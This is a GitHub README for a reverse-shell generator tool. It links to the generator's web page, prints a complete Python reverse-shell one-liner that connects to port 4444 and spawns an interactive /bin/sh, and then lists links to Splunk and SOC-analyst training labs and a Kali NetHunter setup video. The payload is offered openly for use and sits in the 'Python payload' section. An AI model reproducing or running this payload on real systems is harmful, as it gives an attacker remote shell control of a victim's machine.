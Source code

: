 # Reverse-Shell-Generator

<div align="center">
</div>

![3](https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExb2RmbnpoZ2Y5c3MxdnU1ajk5ZGU5MDN3YzNhaHR4Z3o2ZGN6aGVucCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/fdOA43sHFE6Pu/giphy.gif)

</div>

## Link
```
https://devvj-1.github.io/Reverse-Shell-Generator/
```

## 🔧 Linux  Troubleshooting commands 
```
https://chatgpt.com/share/74ea2fe2-6b6d-400e-bfee-1a434763a162
```

## Python payload 
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("0.0.0.0",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![Screenshot 2024-06-08 015037](https://github.com/DevVj-1/Reverse-Shell-Generator/assets/106962581/13b0947b-d1bd-43af-bb1b-b9a2fc6063e2)

## Setup rootless kali Nethunter on Android

https://youtu.be/fqaSEbaYkJQ?si=b8u3mB2aq8Y4C9Hk

Some how i discovered a cyber security course hands-on cloud labs. so i share it here too! with you guys :)
(Just randomly discovered links while Google dorking)

## Splunk labs

""

👏🏻 I really grateful and appreciative to the creator of this course (Sam Boney, Sir) for creating this cloud hands-on labs and other informative content. 💡

In exchange for what we learn from this resource. We should subscribe ❤️ to his YouTube channel (https://www.youtube.com/channel/UCC2OBhIt1sHE4odV05RYP1w)

""
* all Splunk labs: https://samsclass.info/50/50_S19.shtml#quiz

* Boss of the SOC v1: Threat Hunting with Splunk:
  https://samsclass.info/50/proj/botsv1.htm
* Proj 1x: BOSS OF THE SOC: Finding Attack Servers:
  https://samsclass.info/50/proj/p1xbots.htm

## other labs

* https://attack.samsclass.info/

## CBL
* https://samsclass.info/129S/proj/CBL.htm

## CNIT
* https://samsclass.info/129S/proj/p10token.htm

## Top 10 Soc analyst hands on labs.

link:https://youtu.be/G5sCK6IU3nU?si=r9Br6pag8HZeiUGK
